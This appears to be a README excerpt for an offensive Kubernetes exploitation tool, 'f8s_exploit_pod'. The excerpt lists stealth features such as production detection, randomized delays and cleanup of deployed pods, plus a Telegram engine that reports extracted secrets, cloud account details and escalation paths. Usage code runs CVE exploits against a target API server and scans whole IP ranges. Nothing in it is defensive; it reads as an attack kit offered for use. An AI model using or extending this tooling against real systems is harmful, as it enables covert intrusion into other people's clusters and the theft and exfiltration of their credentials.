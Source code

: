 ### 🥷 Stealth & Operational Security
- Rate limiting (2 requests/second)
- Request timeouts and retry logic
- Production environment detection
- Automatic cleanup of deployed resources
- Random delays and exponential backoff
- Pod deployment tracking for cleanup

### 📱 Telegram Reporting Engine
- Rich Markdown reports with CVE details
- Secret extraction summaries
- Cloud account information
- Recommended escalation paths
- Real-time notifications

## 🛠️ Installation & Usage

### Prerequisites
```bash
pip install aiohttp requests
```

### Basic Usage

```python
import asyncio
from f8s_exploit_pod import F8sPodExploiter, run_f8s_exploitation

# Method 1: Direct class usage
async def direct_usage():
    exploiter = F8sPodExploiter(
        telegram_token="your_telegram_token",
        stealth_mode=True
    )
    
    # Run specific CVE exploits
    result = await exploiter.exploit_cve_2025_24884("https://target:6443")
    print(f"CVE-2025-24884: {'Success' if result.success else 'Failed'}")

# Method 2: Integration function
async def integration_usage():
    results = await run_f8s_exploitation(
        target_ranges=["10.0.0.0/24", "192.168.1.0/24"],
        telegram_token="your_telegram_token"
    )
    
    print(f"Session: {results['session_id']}")
    print(f"CVEs Exploited: {results['exploitation_summary']['cves_exploited']}")

asyncio.run(direct_usage())
asyncio.run(integration_usage())
```
